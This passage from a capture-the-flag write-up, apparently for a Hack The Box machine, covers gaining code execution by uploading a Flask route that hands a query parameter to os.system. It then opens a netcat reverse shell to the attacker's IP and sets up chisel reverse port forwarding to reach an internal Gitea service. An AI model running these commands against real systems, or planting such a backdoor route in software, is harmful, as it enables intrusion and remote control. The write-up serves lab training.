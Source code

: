 ```


@app.route('/exec')
def cmd():
    return os.system(request.args.get('cmd'))
```
  

Then, we intercept the request through Burp Suite and upload the modified file:

![Desktop View](/opensource/media5.png)
We got the RCE, now we can deploy the reverse shell.

**Victim** :    ```http://source.htb/exec?cmd=nc%2010.10.16.2%20%201337%20-e%20/bin/sh```
**Attacker:** ``` nc -nlvp 1337```

![Desktop View](/opensource/media6.png)

  
## Container escape

As you can see, we are in a docker container. However, now that we have access to the machine, we can check the previously found service on port 3000 and find out which service is running on it.

```
$ wget 10.10.11.164:3000
```

```
$ ls

INSTALL.md
app
index.html
public
run.py
```
```
$ cat index.html

<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
 <meta charset="utf-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
 <title> Gitea: Git with a cup of tea</title>
```
 
We see that the local ```Gitea``` service is running, but it's available only from browser, so we can use ```chisel``` to make a port forwarding on our local machine. 

**Victim:** ``` ./chisel_1.7.7_linux_amd64 client 10.10.16.2:3000 R:5000:socks ```
**Attacker:** ```./chisel_1.7.7_linux_amd64 server --port 3000 -v --reverse --socks5```

After the connection is established, you must also set the proxy in the browser settings on the previously specified port (5000).
